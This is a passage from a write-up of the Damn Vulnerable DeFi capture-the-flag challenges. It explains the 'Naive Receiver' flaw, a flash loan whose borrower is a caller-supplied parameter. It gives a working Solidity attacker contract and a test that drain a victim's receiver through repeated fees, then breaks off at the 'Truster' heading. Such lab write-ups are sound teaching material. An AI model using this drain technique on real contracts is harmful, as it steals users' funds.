 The challenge is to drain all all of the funds from a user's flash loan receiver contract. We can see the flash loan borrower is specified as a parameter and not as the `msg.sender`, allowing anyone to flash loan into someone else's receiver: 

```javascript
    function flashLoan(address payable borrower, uint256 borrowAmount) external nonReentrant {

        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");

        require(address(borrower).isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        (bool success, ) = borrower.call{value: borrowAmount}(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            )
        );
        require(success, "External call failed");
        
        require(
            address(this).balance >= balanceBefore.add(FIXED_FEE),
            "Flash loan hasn't been paid back"
        );
    }
```

By flash-loaning through the contract several times, we can siphon out the balance due to the flash loan fees. By writing our own attacker contract, we can do it all in one transaction:

```javascript
    function attack(address payable borrower, uint256 borrowAmount, address payable lenderpool) external {

        for (uint i = 0; i < 10; i++) {

            NaiveReceiverLenderPool pool = NaiveReceiverLenderPool(lenderpool);
            pool.flashLoan(borrower, borrowAmount);
        }
        
    }
```
```javascript
it('Exploit', async function () {
        this.attackpool = await FlashloanAttacker.new({ from: attacker });
        await this.attackpool.attack(this.receiver.address, ether('1'), this.pool.address, {from: attacker});
    });
```
## [3. Truster](https://www.damnvulnerabledefi.xyz/challenges/3.html)

Our goal is to steal all of the tokens from the pool, exploiting the following flash loan function:
